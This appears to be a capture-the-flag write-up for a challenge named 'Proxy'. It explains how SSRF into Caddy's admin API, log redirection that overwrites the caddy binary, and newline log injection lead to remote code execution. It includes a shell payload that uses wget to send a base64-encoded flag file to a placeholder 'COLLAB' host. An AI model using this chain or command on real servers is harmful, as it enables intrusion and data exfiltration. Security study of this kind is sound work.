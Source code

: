 ## Proxy

## Exploit Summary
The exploit chain leverages Caddy's admin API to achieve RCE and flag exfiltration:

1. Arbitrary SSRF
- The initial Caddy configuration allows arbitrary SSRF via the reverse_proxy handler. This enables access to internal services like the admin API on `127.0.0.1:2019`.

2. Admin API Abuse
- The `/load` endpoint allows dynamic configuration changes without server restart. 
- We configure logging to write logs to `/usr/sbin/caddy` (earlier in `$PATH` than the real binary)
- Set permissions to `0777` (executable)

3. Log Injection to RCE
- Use console format for cleaner output
- Trigger a 404 error with a malicious URL containing: Newline characters (`%0A%0D`) to break log formatting
- Pipeline to decode Base64-encoded payload and execute: `echo <b64>chmod 777 /flag.sh; wget https://COLLAB/?a=$(cat /flag.sh|base64)</b64> | base64 -d | sh`

4. Restart Server to Trigger
- Stop Caddy via `/stop` admin endpoint, causing the container's restart loop to execute our malicious `/usr/sbin/caddy` script.

### Task intro
Description of the task:
```
Nowadays, some kind of connection transitivity is often required. We're quite new to this market, would you mind to check our MVP? 
```

We are given a Dockerfile, Caddyfile, compose file, `flag.sh` and `index.html` with static content. We can see that we are using the last version of the Caddy server in the docker container. 
```Docker
FROM caddy:2.10-alpine
RUN apk add --no-cache \
    python3-dev \
    py3-pip 
WORKDIR /app
COPY index.html ./
COPY Caddyfile ./
RUN chmod 666 /app/index.html
COPY flag.sh /
RUN chmod 0000 /flag.sh
CMD while true; do sh -c 'caddy run --config /app/Caddyfile'; done
```

Also, we have 2 strange commands in the Docker file: chmod 000 and an infinite loop of running caddy by sh. As the capability of CAP_DAC_OVERRIDE is dropped in the compose file, we can't read the file with the flag even as root. So we have to achieve RCE or change permissions of the file.
```
services:
  caddy:
    build: .
    ports:
      - 8888:80
    cap_drop:
            - CAP_DAC_OVERRIDE
```
